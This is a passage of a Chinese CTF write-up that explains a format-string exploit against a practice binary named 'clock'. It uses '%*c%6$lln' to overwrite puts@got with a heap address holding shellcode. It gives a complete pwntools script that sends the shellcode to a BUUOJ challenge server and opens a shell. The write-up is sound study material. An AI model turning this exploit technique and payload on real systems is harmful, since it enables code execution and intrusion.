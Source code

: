 现在我们知道，我们访问的第一个参数是刚写入完内容的`name`堆地址，第二个参数是`pwd`栈地址，
并且第6个参数处就是我们写入的内容。如果我们能把堆地址写到`puts@got`中，
那么`puts`执行时就会跳转到我们在堆上输入的数据处。此时`*`参数就派上用场了。
使用`"%*c%6$lln"`作为格式输入，`vsnprintf`就会将第一个堆地址作为宽度，打印第二个字符，
然后根据写过的字符数，将其写入到第六个参数，`puts@got`中。

{% notel green fa-exclamation 巧合 %}
由于程序没开PIE，因此堆地址刚好占4个字节，由于`*`取的类型为`int`，所以如果开了PIE，
堆地址变成了6个字节，这个方法就废了

此外，`puts@got`原先已经链接了`puts@libc`，其中存放了6个字节的数据，
需要通过`lln`清空之前的数据，只保留堆地址这4个字节
{% endnotel %}

这样以来，我们只需要在申请的堆块上写上打开shell的shellcode，我们就能成功拿shell。

> 最后的payload非常短，我猜是非预期

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
EXE = './clock'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('node5.buuoj.cn', 29789)
    elf = ELF(EXE)

    sh.sendafter(b'code', b'never mind')
    sh.sendlineafter(b'Enter', b'3')
    sh.sendafter(b'format', b'%*c%6$lln')
    sh.sendafter(b'name', asm(shellcraft.amd64.linux.sh()))
    sh.sendafter(b'pwd', p64(elf.got['puts']))

    sh.clean()
    sh.interactive()
```

## `*`修饰符的妙用

这里有[一篇文章](https://violenttestpen.github.io/ctf/pwn/2021/06/06/zh3r0-ctf-2021/)，
讲了如何借助`*`进行进一步利用。简而言之，如果有libc的指针，
并且有现成的指针存储了堆之上，栈之下的地址，那么就可以先从现有的libc指针中使用`*`，
写`libc & 0xffffffff`个字节，然后可以再跟一个`%?c`来做加法，把写过的字节调一下，
然后再使用`%?$n`就可以把调过偏移的数字写入你想要写的指针中（堆之上，栈之下的地址的高2字节，
即`0x7fff`这个部分，基本都一样，因此可以直接利用）
